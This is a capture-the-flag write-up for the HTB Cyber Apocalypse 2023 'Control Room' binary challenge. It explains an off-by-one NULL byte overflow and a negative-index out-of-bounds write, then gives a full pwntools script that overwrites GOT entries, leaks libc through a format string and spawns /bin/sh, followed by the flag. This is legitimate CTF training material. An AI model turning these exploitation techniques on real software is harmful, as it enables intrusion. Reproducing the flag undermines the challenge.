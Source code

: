 # Control Room - HTB Cyber Apocalypse 2023

## Description
After unearthing the crashed alien spacecraft you have hacked your way into it's interior. Nothing seems perticularily interesting until you find the spacecraft's control room. Filled with monitors, buttons and panels this room surely contains a lot of important information, including the coordinates of the underground alien vessels that you 've been looking for. You decide to start off by booting up the main computer. You hear an uncanny buzzing-like noise and then a monitor lights up requesting you to enter a username. Can you take control of the Control Room?

## Solution
There are 2 bugs in this program.

An off-by-one NULL byte overflow inside of edit_user, which allows us to overwrite the user's role with a NULL byte to become Captain.
An OOB write in the configure_engine function, which allows us to write into indexes that are in the negative.

Checksec:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

I tried to figure out how to leak with the Captain. As he had the latitude longitude way of writing characters out. In the end I was only able to cause a stack leak with this, so I gave up and decided to take another approach which only really used the technician. The full exploit process was as follows:

1. Use NULL byte overflow to change ourselves to Captain in the beginning
2. Change role to technician
3. Overwrite exit GOT with user_register so we can use this as an arb write but without NULL bytes
4. Overwrite the curr_user pointer to point at the end of control_panel instead.
5. This changes us back to Captain so we change our role back to technician again
6. Overwrite puts' GOT so it becomes printf instead.
7. Make the program "exit" which calls user_register instead. This lets us write into the control_panel string. We write in a bunch of %p's, which causes a leak, since puts is now printf instead.
8. Receive leak
9. Overwrite strlen's GOT with system
10. Make the program call "exit" again which will call user_register. Write in /bin/sh. This will cause strlen which is actually system to be triggered with /bin/sh as input.


Exploit:

```py
from pwn import *

io = remote("165.232.100.84",31246)

#Become Captain
username = b'A'*0x100

io.recvuntil(b'Enter a username:')

io.send(username)

io.recvuntil(b'>')

io.sendline(b'n')

io.recvuntil(b'New username size:')

io.sendline(b'256')

io.recvuntil(b'Enter your new username:')
io.send(b'A'*0xff)

io.recvuntil(b'Option [1-5]:')

#Change role to technician
io.sendline(b'5')
io.recvuntil(b'New role:')
io.sendline(b'1')


#overwrite exit with user_register to get an arb write without NULL bytes
user_register = 0x0040170c
io.recvuntil(b'Option [1-5]:')
io.sendline(b'1')
io.recvuntil(b'Engine number [0-3]:')
io.sendline(b'-7')
io.recvuntil(b'Thrust:')
io.sendline(f"{user_register}".encode())
io.recvuntil(b'Mixture ratio:')
io.sendline(b'0')
io.recvuntil(b'(y/n)')
io.sendline(b'y')

#overwrite curr_user pointer to point at control_panel
io.recvuntil(b'Option [1-5]:')
io.sendline(b'1')
io.recvuntil(b'Engine number [0-3]:')
io.sendline(b'-2')
io.recvuntil(b'Thrust:')
io.sendline(f"{0x4053b8}".encode())
io.recvuntil(b'Mixture ratio:')
io.sendline(b'0')
io.recvuntil(b'(y/n)')
io.sendline(b'y')

#Change role to technician
io.sendline(b'5')
io.recvuntil(b'New role:')
io.sendline(b'1')


#overwrite puts to become printf
strncpy_orig_got = 0x401040
printf_plt = 0x004011e0
io.recvuntil(b'Option [1-5]:')
io.sendline(b'1')
io.recvuntil(b'Engine number [0-3]:')
io.sendline(b'-16')
io.recvuntil(b'Thrust:')
io.sendline(f"{strncpy_orig_got}".encode())
io.recvuntil(b'Mixture ratio:')
io.sendline(f"{printf_plt}".encode())
io.recvuntil(b'(y/n)')
io.sendline(b'y')

#overwrite the control panel with fmt string shit
io.recvuntil(b'Option [1-5]:')
io.sendline(b'6')
io.recvuntil(b'Enter a username:')
io.sendline(b'&'+b'%p_'*83+b'&')
io.recvuntil(b'&')
leak = int(io.recvuntil(b'&').split(b'_')[2],16)
libc_base = leak - 0x114a37

log.info(f"libc leak: {libc_base:#x}")

system = libc_base+0x00050d60

#overwrite strlen with system
stack_chk_orig_got = 0x401090
io.recvuntil(b'Option [1-5]:')
io.sendline(b'1')
io.recvuntil(b'Engine number [0-3]:')
io.sendline(b'-14')
io.recvuntil(b'Thrust:')
io.sendline(f"{system}".encode())
io.recvuntil(b'Mixture ratio:')
io.sendline(f"{stack_chk_orig_got}".encode())
io.recvuntil(b'(y/n)')
io.sendline(b'y')


#Send /bin/sh\x00 so that we call /bin/sh with strlen
io.recvuntil(b'Option [1-5]:')
io.sendline(b'6')

io.recvuntil(b'Enter a username:')
io.sendline(b'/bin/sh\x00')

io.interactive()
```

## Flag
`HTB{pr3p4r3_4_1mp4ct~~!}`
